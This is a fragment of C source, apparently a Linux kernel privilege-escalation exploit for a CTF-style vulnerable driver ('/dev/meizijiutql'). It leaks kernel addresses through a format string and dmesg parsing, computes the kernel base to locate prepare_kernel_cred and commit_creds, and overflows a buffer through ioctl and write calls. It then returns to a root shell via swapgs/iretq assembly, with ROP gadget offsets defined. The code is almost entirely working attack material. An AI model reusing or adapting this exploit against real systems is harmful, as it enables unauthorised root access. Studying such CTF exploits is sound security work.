 ```c
		"pushq %3;"
		"pushq $shell;"
		"pushq $0;"
		"swapgs;"
		"popq %%rbp;"
		"iretq;"
		::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs)
	);
}


char buf[] = "%lx.%lx.%lx.%lx.%lx.%x.%lx.%lx.%lld.%lld.%lx.%x";
int main()
{
	signal(SIGSEGV, shell);
	save_stat();
	printf("[+]open drive\n");
	int fd = open("/dev/meizijiutql",2);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}

	int ret = 1;
	ret = ioctl(fd,0x73311337,0x100);
    ret = write(fd, buf, sizeof(buf));
	
	ret = ioctl(fd,0xDEADBEEF,0);
	ret = ioctl(fd,0xDEADBEEF,0);
	
	system("echo `dmesg | tail -1 | cut -f 2 -d ']' | cut -f 9 -d '.'` > func");
    system("echo `dmesg | tail -1 | cut -f 2 -d ']' | cut -f 10 -d '.'` > stack");
    
    char funcbuf[0x20], stackbuf[0x20];
    memset(funcbuf,0,0x20);
    memset(stackbuf,0,0x20);
    int funcfd = open("./func",2);
    int stackfd = open("./stack",2);
    read(funcfd,funcbuf,0x20);
    read(stackfd,stackbuf,0x20);
	long unsigned int func = atol(funcbuf);
	long unsigned int stack = atol(stackbuf)-0x68-0x20;

	size_t base = func - 0x129a268;
	printf("func: 0x%lx\nprepare_kernel_cred: 0x%lx\ncommit_creds: 0x%lx\nstack: 0x%lx\n", 
	func, (size_t)prepare_kernel_cred+base, (size_t)commit_creds+base, stack);
	
	for(int i=0; i<0x20; i++){
		ret = ioctl(fd,0x73311337,SIZE);
		printf("%d ",ret);
	}
	size_t data[SIZE/8+1];
	data[SIZE/8]=stack;
	write(fd,data,sizeof(data));
	
	ret = ioctl(fd,0x73311337,SIZE);
	printf("%d ",ret);
	ret = ioctl(fd,0x73311337,SIZE);
	printf("%d ",ret);

#define pop_rdi_ret 0x1388//0xffffffff81001388
    
#define mov_rax_rdi 0x38e1f6//0xffffffff81195ef6
```